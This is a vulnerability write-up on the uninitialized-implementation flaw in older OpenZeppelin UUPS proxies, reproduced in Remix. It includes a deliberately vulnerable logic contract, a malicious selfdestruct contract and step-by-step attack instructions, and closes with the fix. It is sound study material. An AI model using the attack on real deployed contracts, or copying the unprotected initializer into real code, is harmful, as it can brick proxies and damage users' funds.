 ## The vuluerabiliry of UUPS

### 0x00 The implement contract without initialize

### Concept

Before the old version of UUPS upgrade mode (v4.6), `Initializable.sol` did not have a `_disableInitializers()` function. This function is generally used in the constructor of the logic contract to initialize the logic contract.

If a logic contract's `initialize()` function has no access control and can be called by anyone, for example:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin-contracts-upgradeable@v4.2.0/contracts/proxy/utils/UUPSUpgradeable.sol";

contract Logic_1 is OwnableUpgradeable, UUPSUpgradeable {
    uint256 public value;

    function initialize() external {
        __Ownable_init();
    }

    function _authorizeUpgrade(
        address newImplementation
    ) internal override onlyOwner {}

    function setValue(uint256 newValue) external {
        value = newValue;
    }

}
```

Then there will be a serious security vulnerability here. Hackers can call the `initialize()` function and become the `owner` of the logic contract, thereby executing the `upgradeToAndCall(address,bytes)` function in the logic contract and calling the self-destruct function in the malicious contract through `delegatecall newImplement`, causing the logic contract to self-destruct.

*The impact is: the proxy contract will not be able to call the functions of the logic contract, and the contract cannot be upgraded.*

### Reproduction

> **The reason for not choosing Foundry is that due to the version upgrade, the bytecode `opcode:selfdestruct` has been deprecated, and the function has been modified to not have the function of destroying the contract code. Therefore, in order to reproduce this vulnerability, it can only be done through `Remix` and use a lower version of the compiler.**

**Test environment**

- IDE: Remix
- evm-version: shanghai
- solc-version: 0.8.20
- libraries: openzepplin@v4.2.0
- codeLink: [link](https://github.com/LBiyou/Learning-from-Audit-Reports/tree/main/Vulnerability_Reproduction/src/Vulnerability_upgrade/uups/ImplementWithoutInitialize)
- Deployer: 0x5B38Da6a701c568545dCfcB03FcB875f56beddC4
- Hacker:  0xAb8483F64d9C6d1EcF9b849Ae677dD3315835cb2

#### **Case 1**

> The hacker becomes the owner of the logic contract and delegatecall the self-destruction function of the malicious contract when executing upgradeToAndCall().

```solidity
// Malicious contract
contract MaliceContract {
    address public constant owner = (
        0x5B38Da6a701c568545dCfcB03FcB875f56beddC4
    );

    function selfKill() external {
        selfdestruct(payable(owner));
    }

    function upgradeTo(address) external {
        assembly {
            sstore(
                0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc,
                0
            )
        }
    }
}
```

**Steps **

- step1：The `deployer` deploys the proxy contract, logic contract, and initializes the proxy contract.

![image-20240919152610143](v_uups/image-20240919152610143.png)

- step2 : Instantiate the proxy contract through `At Address` and test its functionality.(no problem)

![image-20240919152905749](v_uups/image-20240919152905749.png)

- step3: Hackers perform malicious actions.
    - Deploy malicious contracts.
    - Call the `initialize()` function and become the `owner` of the logic contract.
    - Call the `upgradeToAndCall()` function and pass in the address of the malicious contract and the selector of the self-destruct function.

​		![image-20240919153902507](v_uups/image-20240919153902507.png)

- step4: Return to the proxy contract to call the logic contract function and upgrade the contract.

![image-20240919154139258](v_uups/image-20240919154139258.png)

![image-20240919154313341](v_uups/image-20240919154313341.png)

#### Case 2

> If there is a self-destruct function in the logic contract, and this function can only be called by the `owner`, then the hacker can directly become the `owner` by initializing the logic contract and destroy the logic contract.

### Summarize

After version 4.6, the UUPS proxy mode has changed a lot, limiting the upgrade function of the logic contract to be called only by the proxy contract, which avoids the risk of `case 1`. Of course, the safest way is to use a higher version of `openzepplin` and call the `_disableInitializers()` function in the constructor of the logic contract.

> Tips: As Ethereum continues to upgrade, the function of the bytecode `selfdestruct` has been continuously weakened. Now it no longer has the function of deleting the contract code, and can only transfer the `ETH` in the contract, so even if there is `selfdestruct`, it will not be as terrible as before. But everything still needs to be done with caution, and it is better to be safe than sorry.